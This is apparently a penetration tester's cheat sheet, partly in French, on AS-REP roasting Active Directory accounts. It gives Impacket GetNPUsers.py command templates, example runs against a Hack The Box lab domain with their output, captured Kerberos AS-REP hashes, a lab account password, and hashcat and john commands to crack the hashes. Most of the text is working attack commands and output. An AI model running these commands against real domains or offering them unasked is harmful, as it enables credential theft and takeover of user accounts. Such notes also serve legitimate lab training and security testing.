 # AS_REP


## check ASREPRoast for a list of users (no credentials required)
##  marche pour les objet AD sans pré-authentification


python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

exemple:
/usr/share/doc/python3-impacket/examples/GetNPUsers.py HTB.local/ -usersfile ./list.txt -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$svc-alfresco@HTB.LOCAL:0f8b748c0c7d0a6ff02fa17a749ba128$ccacb6c97be0a844b6890b88bc97cd27b6798396bf2c3e64c773f25f257c000c6f2cc4301b2d97c24a4a752bbbbe1754a4238585dcac082206e021439994f2d7e46dfb24a7189417de710ad4f495aa1b19ee9e443d58aa275f95e3e9df419551fa4ba2b77dd260edae5112d49a4e6bb5f99597adc891d12ff54c1be1cef600eaee164a2a674093fc0bd02540b40f96d44a6e44f4cf4d66c9c8a3cd883994e599c55aaa91264f3acd2fd257943aaacf2462cc68d274940cc7530829b9b23c6e144a5915514d6e55a02752199aa9df813f1104798188d8788122acf982b85a4c6995a3b272956b
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User Santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)


## Cracking with dictionary of passwords:

hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>





## check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>



/usr/share/doc/python3-impacket/examples/GetNPUsers.py -request HTB.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2019-10-16 16:33:13.197703  2019-10-16 16:31:50.994383  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:b56acf6c68e5a4cecbee05233e672ad1$c883d417090944cd8261b42e3c69e1818ea72d2fbfd6195a2d3e22aaaa6d69dca0e16d5899bfc66ac868a2b3d2bb69d9f500b711ce74ccf671eb688fb8da20fec9a9183cd776ead51cddfb7b30cd713a498144f86c8072db7799d907f35008aeb007bce2a0e299354860f9e0ef18c8d3e5b31ff1668b8cb55f8614fa8a35ad56faeac5f1503cb079e3db6e8337aaa401fddb6361c156e8d34bb828eb4ebedb52878b94dceedb74a4fdd3ecd313d6868430bab82ad75124a9fd022c7ecc123ca33ef4a58f647c01d7f48aef89b8aaa33d6f29d9d151a386a3a9f3b0f0829a657954fdce800cb1


